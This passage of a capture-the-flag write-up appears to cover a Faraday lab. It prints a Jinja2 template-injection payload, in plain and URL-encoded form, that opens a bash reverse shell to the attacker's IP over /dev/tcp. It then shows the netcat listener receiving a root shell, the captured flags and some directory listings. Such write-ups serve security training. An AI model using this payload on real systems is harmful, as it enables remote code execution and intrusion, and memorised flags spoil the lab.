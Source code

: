 ```bash
    {% if request['application']['__globals__']['__builtins__']['__import__']('os')['popen']('bash -c "bash -i >& /dev/tcp/10.10.16.86/443 0>&1"')['read']() == 'chiv' %} a {% endif %}  
```    

  

When `urlencoding` the payload and sending it in the `name` parameter it would look something like this

```bash
    http://10.13.37.14/profile?name={%25+if+request['application']['__globals__']['__builtins__']['__import__']('os')['popen']('bash+-c+"bash+-i+>%26+/dev/tcp/10.10.16.86/443+0>%261"')['read']()+%3d%3d+'chiv'+%25}+a+{%25+endif+%25}  
```    


When opening it, it will redirect us to send the `message` and when sending it we receive a `revshell` as `root` although it seems that it is in a `container`, although we can see the `flag`

```bash
    ❯ sudo netcat -lvnp 443
    Listening on 0.0.0.0 443
    Connection received on 10.13.37.14
    root@98aa0f47eb96:/app# id
    uid=0(root) gid=0(root) groups=0(root)  
    root@98aa0f47eb96:/app# hostname -I
    172.22.0.2 
    root@98aa0f47eb96:/app# cat flag.txt 
    FARADAY{7x7_1s_n0t_@lw4ys_49}
    root@98aa0f47eb96:/app#
```    

  

  

### Time to play

#### FARADAY{d0ubl3\_@nd\_f1o@t\_be@uty}

##### Post Enumeration  

In `/app` we can see several files and directories, including the `db` directory

```bash
    root@98aa0f47eb96:/app# ls -l
    drwxr-xr-x 2 root root 4096 Jul 21  2021 __pycache__
    -rwxr-xr-x 1 root root 8523 Jul 21  2021 app.py
    drwxr-xr-x 2 root root 4096 Apr 21 03:25 db
    -rw-r--r-- 1 root root   30 Jul 16  2021 flag.txt
    -rw-r--r-- 1 root root  220 Jul 16  2021 requirements.txt  
    drwxr-xr-x 3 root root 4096 Jul 16  2021 static
    drwxr-xr-x 2 root root 4096 Jul 21  2021 templates
    -rw-r--r-- 1 root root   71 Jul 16  2021 wsgi.py
    root@98aa0f47eb96:/app#
 ```   

  